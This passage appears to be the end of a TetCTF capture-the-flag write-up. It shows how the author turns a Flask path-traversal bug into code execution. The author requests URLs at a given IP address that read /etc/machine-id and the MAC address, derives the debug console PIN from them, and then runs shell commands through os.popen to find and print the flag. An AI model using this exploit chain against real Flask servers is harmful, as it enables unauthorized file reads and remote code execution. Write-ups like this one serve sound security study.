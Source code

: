 ```
  '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr (mod, '__file__', None) Error Message: http://45.77.245.232:7004/read%2F..%2F../wrong/file
  ] 

private_bits = [ 
  '94558041547692' , # http://45.77.245.232:7004/read%2F..%2F..%2Fetc/network/interfaces | http://45.77.245.232:7004/read%2F..%2F..%2Fsys/class/net/ens3/address
  'd4e6cb65d59544f3331ea0425dc555a1' # http://45.77.245.232:7004/read%2F..%2F..%2Fetc/machine-id
  ] 
```
I ran it and it gave me this pin
```
157-229-274
```
So I tried to login and it worked.
I now could run python code on the server.
I located the flag file and printed it's contents.
```
[console ready]
>>> import os
>>> print(os.popen("locate flag").read())
/phao_san_pa_lay___1337/flagggg.txt
/usr/lib/x86_64-linux-gnu/perl/5.22.1/bits/waitflags.ph
/usr/src/linux-headers-4.4.0-142/arch/alpha/include/asm/irqflags.h
/usr/src/linux-headers-4.4.0-142/arch/arc/include/asm/irqflags-arcv2.h
...
>>> print(os.popen("cat /phao_san_pa_lay___1337/flagggg.txt").read())
TetCTF{Flask_Debug_LFI___Wuttt__RCE}

Please don't do any further action on the server, we knew the setup suck, but it's needed for the vulnerability

```
And there was the Flag
**TetCTF{Flask_Debug_LFI___Wuttt__RCE}**




